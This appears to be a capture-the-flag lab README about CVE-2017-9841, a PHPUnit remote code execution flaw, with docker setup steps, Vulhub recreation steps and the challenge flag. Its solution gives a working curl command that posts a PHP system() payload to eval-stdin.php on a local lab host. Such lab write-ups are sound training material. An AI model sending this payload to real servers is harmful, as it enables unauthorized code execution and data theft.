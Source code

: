 # Challenge 6: PHPUnit

## How to Start
```bash
docker compose pull
docker compose up
```

---

## Description
This challenge teaches the user about **CVE-2017-9841**, a vulnerability in PHPUnit that allows **Remote Code Execution (RCE)**.

---

## Solution
1. Use the terminal to locate the vulnerable `eval-stdin.php` file.
2. Exploit it using a `POST` request with a malicious PHP payload.
3. Example command to retrieve the flag:
   ```bash
   curl -s -X POST http://localhost:8050/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php    -d "<?php system('cat /var/www/html/flag.txt'); ?>"
   ```

**Flag:**
```
flag{phpunit_pwned_rce}
```

---

## How to Recreate

### 1. Clone Vulhub Repository
```bash
git clone https://github.com/vulhub/vulhub
```

### 2. Navigate to PHPUnit CVE Directory
```bash
cd vulhub/phpunit/CVE-2017-9841
```

### 3. Build and Start Containers
```bash
docker-compose up -d
```

### 4. Create the Flag
```bash
docker exec phpunit_web_1 sh -c "echo 'flag{phpunit_pwned_rce}' > /var/www/html/flag.txt"
```

---

## Final Notes
This challenge demonstrates how outdated development dependencies can be exploited for remote code execution.  
Always ensure unused packages like PHPUnit are not exposed in production environments.
